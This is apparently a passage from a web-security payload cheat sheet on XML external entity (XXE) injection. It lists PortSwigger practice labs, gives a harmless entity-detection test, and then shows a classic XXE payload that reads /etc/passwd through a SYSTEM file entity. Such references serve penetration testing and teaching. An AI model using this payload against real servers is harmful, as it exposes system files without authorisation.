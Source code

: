 ## Labs

* [PortSwigger Labs for XXE](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection)
  * [Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)
  * [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)
  * [Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)
  * [Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)
  * [Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)
  * [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)
  * [Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)
  * [Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)
  * [Exploiting XXE to retrieve data by repurposing a local DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)
* [GoSecure workshop - Advanced XXE Exploitation](https://gosecure.github.io/xxe-workshop) 


## Detect the vulnerability

Basic entity test, when the XML parser parses the external entities the result should contain "John" in `firstName` and "Doe" in `lastName`. Entities are defined inside the `DOCTYPE` element.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

It might help to set the `Content-Type: application/xml` in the request when sending XML payload to the server.

## Exploiting XXE to retrieve files

### Classic XXE

We try to display the content of the file `/etc/passwd` 

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
